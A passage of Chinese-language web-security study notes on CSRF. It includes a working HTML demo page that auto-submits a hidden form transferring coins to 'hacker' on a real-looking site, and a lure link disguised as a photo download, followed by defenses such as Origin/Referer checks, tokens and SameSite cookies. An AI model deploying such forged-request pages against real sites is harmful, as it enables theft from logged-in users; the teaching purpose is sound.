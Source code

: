 - ⾃动发起 POST 请求

  ```html
  <!DOCTYPE html>
  <html>
    <body>
      <h1>⿊客的站点：CSRF攻击演示</h1>
      <form
        id="hacker-form"
        action="https://time.geekbang.org/sendcoin"
        method="POST"
      >
        <input type="hidden" name="user" value="hacker" />
        <input type="hidden" name="number" value="100" />
      </form>
      <script>
        document.getElementById("hacker-form").submit();
      </script>
    </body>
  </html>
  ```

- 引诱⽤户点击链接

  ```html
  <div>
    <img width=150 src=http://images.xuejuzi.cn/1612/1_161230185104_1.jpg />
    <a
      href="https://time.geekbang.org/sendcoin?user=hacker&number=100"
      taget="_blank"
    >
      点击下载美⼥照⽚
    </a>
  </div>
  ```

- [浅谈 CSRF 攻击方式](https://www.cnblogs.com/hyddd/archive/2009/04/09/1432744.html)
- [跨站请求伪造与 Same-Site Cookie](https://www.jianshu.com/p/66f77b8f1759)
- 预防
  - 检测 http referer 是否是同域名，通常来讲，用户提交的请求，referer 应该是来来自站内地址，所以如果发现 referer 中地址异常，那么很可能是遭到了 CSRF 攻击。
    - 在服务器端验证请求头中的 Referer 并不是太可靠，因此标准委员会⼜制定了 Origin 属性，在⼀些重要的场合，⽐如通过 XMLHttpRequest、Fecth 发起跨站请求或者通过 Post ⽅法发送请求时，都会带上 Origin 属性
    - Origin 属性只包含了域名信息，并没有包含具体的 URL 路径，这是 Origin 和 Referer 的⼀个主要区别
    - 服务器的策略是优先判断 Origin，如果请求头中没有包含 Origin 属性，再根据实际情况判断是否使⽤ Referer 值。
  - 避免登录的 session 长时间存储在客户端中。
  - 关键请求使用验证码或者 token 机制。在一些十分关键的操作，比如交易付款环节。这种请求中，加入验证码，可以防止被恶意用户攻击。token 机制也有一定的防御作用。具体来说就是服务器每次返回客户端页面的时候，在页面中埋上一个 token 字段，例如 `<input type=“hidden” name=“csrftoken” value=“abcd">`。 之后，客户端请求的时候带上这个 token，使用这个机制后，攻击者也就很难发起 CSRF 攻击了。
  - sameSite cookie

### 浏览器架构

通过浏览器漏洞进⾏的攻击是可以⼊侵到浏览器进程内部的，可以读取和修改浏览器进程内部的任意内容，还可以穿透浏览器，在⽤户的操作系统上悄悄地安装恶意软件、监听⽤户键盘输⼊信息以及读取⽤户硬盘上的⽂件内容。
